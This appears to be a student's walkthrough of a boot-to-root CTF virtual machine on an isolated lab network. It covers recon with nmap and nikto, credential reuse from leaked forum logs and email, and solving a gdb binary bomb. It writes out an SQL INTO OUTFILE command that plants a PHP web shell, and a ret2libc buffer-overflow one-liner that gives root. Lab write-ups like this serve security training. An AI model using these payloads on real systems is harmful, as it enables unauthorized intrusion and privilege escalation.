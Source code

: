 # Main way

Since bridged adapter is blocked in the school - I setup kali linux vm and boot-to-root vm through host-only adapter.
I created local network through *VirtualBox->File->Host network manager*, and it's ip *192.168.56.1/24*.
Now, there is a local network with kali vm, boot-to-root vm and host computer.
And kali will see only host computet and boot-to-root vm.
My kali linux ip is 192.168.56.101 (through * ip a *).
And we need to find out how can we interact with boot-to-root vm. For this I check all available ports im my local network with * nmap 192.168.56.1-225 *

For only one non host port in my local network I received:
Nmap scan report for 192.168.56.102
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

So boot-to-root vm running on 192.168.56.102 ip, and have few open ports.

On http there is site, which is pretty empty, I check it html source code and there is nothing interesting in it. 
After that I scanned it with * skipfish -o path_to_save http://192.168.56.102 * and * nikto -h http://192.168.56.102 *, and not found thomething interesting.

There is another open port which could be scanned, it's https.
using * nikto -h https://192.168.56.102 * we recieve few interesting dirs: forum, webmail, phpmyadmin

On forum there are 4 topics and only one is iteresting, topic *Probleme login* where user *lmezard* push logs with attempts to log in.

In these logs we can see, what username lmezard used trying to log in, it's *Failed password for invalid user 'username'* 
And there is interesting username in string * Failed password for invalid user !q\]Ej?*5K5cy*AJ *
And, these characters came up for lmezard password.

In lmezard profile we could see his email, so we go to webmail, and try the same password !q\]Ej?*5K5cy*AJ to his mail. And it's fits again.

In mail there is message * DB Access * which contains * Use root/Fg-'kKXBj87E:aJ$  *. It doesn't fit to ssh and ftp connection, but it's fit to phpmyadmin.

First of all I checked all tables in db, but all users passwords hashed and I didn't find any helpful information.
And another way to get access to server - is SQL injection through which you can access the shell.
(detailed articles about SQL injections https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/ https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

* SELECT  '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/hack.php' *
templates_c - dir which always need write permission, used for compiled templates. I found it through *dirbuster* and brute force dirs to write access.

After that we can run something like this * https://192.168.56.102/forum/templates_c/hack.php?cmd=pwd * and it will show pwd output * /var/www/forum/templates_c *

After a little research, we can see LOOKATME dir in home dir with other users (I used curl because more convenient output):
* curl --insecure 'https://192.168.56.102/forum/templates_c/hack.php?cmd=ls%20-la%20/home' * (--insecure because of https not safe)
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr 16 04:01 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz

There is file password in LOOKATME dir, which contains * lmezard:G!@M6f4Eatau{sF" *

This password fit to ftp port, which contains README file - "Complete this little challenge and use the result as password for user 'laurie' to login in ssh", and fun file (which need to be solved).
(command 'get' to receive files through ftp)

### lmezard
File fun is archive (I found out it because of '0ustar' mark in file).
After unzipping (* tar -xf fun *)
There is a folder * ft_fun * with a lot of pcap files.

These files have c code, and comments which number/line it has.
So we need to write script which will correct concat them into c file.
We can use our "build_program.py" script inside this folder to get full program.
Compile and run "prog.c". Got "Iheartpwnage" password and advice to use sha-256.

### laurie
```
echo -n "Iheartpwnage" | shasum -a 256
```
laurie : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

There is bomb here. Bomb contains of 6 phases. We should input correct key in each stage.
```
scp -P 2222 laurie@127.0.0.1:bomb ./
```

gdb bomb

    disas main
    disas phase_1
    x/1cs 0x80497c0
    "Public speaking is very easy."

    disas phase_2
    Program expects 6 numbers. First is 1, and every number = prev * (index(cur) + 1)
    "1 2 6 24 120 720"

    disas phase_3
It is very difficult to read this asm code. And We downloaded cutter to decompile bomb. Yeah, this way is much better.
We see switch-case condition here and there is several correct combinations.
0 q 777
1 b 214

phase_4
Recursive function, which returns sum of calls this function with num - 1 and num - 2. If num < 2 function returns 1. We need 55.
1 -> 1
2 -> 2
3 -> 3
4 -> 5
5 -> 8
6 -> 13
7 -> 21
8 -> 34
9 -> 55

phase_5
So we will have some sex with bytes here.
We shoud get word "giants". Program expects 6 charachters.
Logical AND with 0xF uses for each inputed character, and then get this num as index of "isrveawhobpnutfg" array.
So we need indexes: 15 0 5 11 13 1.
Look at ascii table and get characters which hexadecimal second digit are f, 0, 5, b, d, 1. It is "opekmq".

phase_6
Program expects 6 numbers.
Inside program is array with numbers 253 725 301 997 212 432.
There are 4 cycles here.
1) Checks that each number is unique and 1 <= n <= 6.
2) 3) Build new array from program's array with inputed indexes.
4) Check that new array is sorted.
So we need numbers "4 2 6 3 1 5".

README says to remove spaces when we have FULL the password. Ok, lets concatenate all strings and remove spaces.
"Publicspeakingisveryeasy.126241207201b2149opekmq426135". This is password for thor.

### thor
Use our "parse_turtle_steps.py" script and look at word "SLASH".
```
md5 -s SLASH
```
"646da671ca01bb5d84dbb5fb2238dc8e" is password for zaz.

### zaz
You can see expolit_me file there. This program takes argument and prints it. With decompiled code we can see that there is only 140 bytes buffer inside main. And strcpy is uding here. Excellent opportunity to overflow buffer and use ret2lib exploit.

We need to know system command adress and '/bin/bash' string address.

gdb exploit_me

    break main
    run
    print &system                           > 0xb7e6b060 > '\xb7\xe6\xb0\x60'
    find &system, +9999999, "/bin/sh"       > 0xb7f8cc58 > '\xb7\xf8\xcc\x58'


Now we can run this command
```
./exploit_me $(python -c "print('a' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'dumm' + '\xb7\xf8\xcc\x58'[::-1])")
```

Whaaat is going on? Whoami? A im root! System has been hacked.

Description of ret2lib exploit.
https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

Gdb useful things.
https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
